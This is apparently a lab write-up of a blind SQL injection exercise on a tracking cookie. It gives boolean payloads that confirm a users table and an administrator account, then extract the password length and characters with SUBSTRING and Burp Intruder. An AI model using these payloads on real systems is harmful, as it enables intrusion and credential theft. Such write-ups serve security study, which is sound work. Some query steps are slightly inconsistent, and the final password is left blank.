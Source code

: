 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234766625-5e8e25d3-387c-40d5-88b6-2c348a1ecb6b.png)

## Solution :


Request looks like 

![image](https://user-images.githubusercontent.com/67383098/234805007-50a73456-c90f-4288-a3bc-2b559e87e890.png)


Query made looks something like -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
where trackingID - `g2w1yAddN9LlERl3` Cookievalue - `xdpiZNiyUyxtsAfDKlsfxYJldM3xW576`

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back. 

We can perform a SQL  injection on trackingID parameter , 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

there maybe 2 results - TrackinID does/does not exist.

- Condition(1=1) = **TRUE** -> **Welcome back message is shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810681-972b65ca-014f-4906-aca9-5201cebea564.png)


- Condition(1=2) = **FALSE** -> **Welcome back message is not shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810921-cc49f440-dca7-4ba7-98ff-a5e4aa8e555d.png)


From the above responses, we can we can exploit the blind injection vulnerablitiy .

#### Conform that there is users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --
```

```
This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.
```

![image](https://user-images.githubusercontent.com/67383098/234817409-11451756-02b5-4822-8916-17e4b53f1065.png)

We see a *Welcome back* msg , so it conforms that there is a users table.

#### Conform that username administrator is present in users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://user-images.githubusercontent.com/67383098/234822414-89112d5b-720c-4688-b285-a9396bdbbd48.png)

We confirm that there is a user called `administrator` in the database.

#### Find the length password of administrator 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

In particular, the subquery `(SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)` is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string `AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'` is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

![image](https://user-images.githubusercontent.com/67383098/234827083-97984765-77d1-46be-b72b-09f9923ff647.png)

This confirms that the password is greater than 1

If we send the value as  50 ie `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>50)='a`  , we dont get any welcome message which means its not > 50  characters.

![image](https://user-images.githubusercontent.com/67383098/234827767-30367782-0bbe-4f38-8d2a-15635f1ae154.png)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.

#### Bruteforce the 20 character length password


Use the same query as above bu thios time we use the  **SUBSTRING** method `(SELECT SUBSTRING(password,1,1)` to get each letter of the password and loop through it  to check if 1st letter is =a/b/c ... & so on.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```
From the above command we take the 1st character of the password & check if it is = 'a'.
Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this  -

1. Attack type - Cluster bomb
2. Payload 1 - length checking part [>1]
3. Payload 2 - character checking part ['a'--]
4. Payload 1 type - Numbers [range 1-20]
5. Payload 2 type - Bruteforcer [min & max length = 1]


In the filter settings, add the search item as `Welcome`

![image](https://user-images.githubusercontent.com/67383098/235315210-1a388b10-d201-4b58-8fa9-9c39254ea64f.png)

Now we get 20 differnt payloads which give us the **Welcome back** option.

![image](https://user-images.githubusercontent.com/67383098/235315270-0e3b7212-9292-4123-b8e9-00ab6f82efde.png)


So the password is - ``







